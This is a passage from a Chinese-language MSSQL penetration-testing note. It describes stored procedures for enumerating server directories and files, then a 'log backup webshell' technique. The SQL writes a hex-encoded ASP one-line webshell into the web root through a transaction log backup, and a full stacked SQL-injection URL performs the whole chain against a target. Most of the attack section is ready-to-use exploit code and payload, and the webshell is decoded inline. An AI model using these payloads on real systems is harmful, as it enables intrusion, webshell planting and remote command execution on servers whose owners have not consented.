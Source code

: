   ```
  exec master..xp_subdirs 'c:\'
  ```

- xp_dirtree  用于显示当前目录的子目录,该存储过程有三个参数

  - directory：第一个参数是要查询的目录
  - depth ：第二个参数是要显示的子目录的深度（默认值为0，表示显示所有的子目录）
  - file ：第三个参数是bool类型，指定是否显示子目录中的文件（默认值为0，表示不显示任何文件，只显示子目录）

  ```
  exec master..xp_dirtree 'c:\'    #递归显示c盘所有文件和目录
  exec master..xp_dirtree 'c:\',1  #显示c盘所有目录
  exec master..xp_dirtree 'c:\inetpub\',1,1  #显示指定目录下的目录和文件
  ```

- xp_create_subdir 用于创建子目录

  ```
  exec master..xp_create_subdir 'c:\test'  #c盘下创建一个test目录
  ```

- xp_fileexist 用于判断文件是否存在，该存储过程返回的结果集有一行数据，三个字段

  ```
  exec master..xp_fileexist 'c:\windows\win.ini'
  ```


## log备份写shell

利用条件：

- 至少DBO权限，默认SA满足
- 前提得知绝对路径，并且可写
- 站库不分离，数据库跟网站在同一台服务器
- 数据库必须被备份过一次

```
use test;
alter database test set recovery full; # 修改test数据库恢复模式为完整模式
IF EXISTS(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp; # 如果存在test_tmp就删除
create table  test_tmp  (a image); # 创建test_tmp表，只有一个列a，类型为image
backup log test to disk ='C:\\inetpub\\wwwroot\\asp.bak' with init; # 备份test数据库到指定路径
insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253E); # 插入一句话木马到test_tmp表中的a
backup log test to disk = 'C:\\inetpub\\wwwroot\\123.asp'; # 备份操作日志到指定文件
drop table test_tmp # 删除test_tmp表
```

```
#组合堆叠注入进行利用url
http://192.168.172.140/less-1.asp?id=1';alter database test set recovery full;IF EXISTS(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp;create table test_tmp (a image);backup log test to disk ='C:\\inetpub\\wwwroot\\mssqli\\asp.bak' with init;insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253E);backup log test to disk = 'C:\\inetpub\\wwwroot\\mssqli\\shelllog.asp'--
0x3C25657865637574652872657175657374282261222929253E -><%execute(request("a"))%>
```
